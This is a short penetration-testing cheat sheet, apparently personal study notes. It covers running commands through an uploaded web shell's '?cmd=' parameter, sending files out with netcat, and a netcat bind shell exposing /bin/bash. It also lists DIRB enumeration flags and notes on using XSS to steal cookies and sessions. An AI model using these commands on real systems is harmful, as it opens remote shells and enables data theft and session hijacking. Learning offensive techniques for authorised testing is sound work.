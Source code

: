 After uploading this shell, we can go to the browser and use:
```bash
"?cmd=<command>" 
```

## NC

we can send files using netcat also:
Receiver
```bash
nc -lvnp <port> > output_file.txt
```

Sender
```bash
echo 'hello' | nc -v <ip> <port>
or
cat <file_u_Wanna_send> | nc -v <ip> <port>
```

## Bind Shell with netcat:

in the server/listener:
```bash
nc -lvnp <port> -e /bin/bash
```

in the client/sender:
```bash
nc -v <ip> <port>
```

## Dictionary-based Enumeration
common backup file names are: .bak, .old, .txt and .xxx

## DIRB

```bash
-x <file of extensions>
-X "extensions.bak, extensions.xxx"
-z delay in miliseconds
-o output a file
-p proxy
-H "set a header"
-u basic authentication "user:password"
-c "set a cookie"
-a "set a agent user"
```

## XSS
reflective > can execute commands and get answer of output in the browser
stored > can send files to the server / get cookies for others users and steal sessions
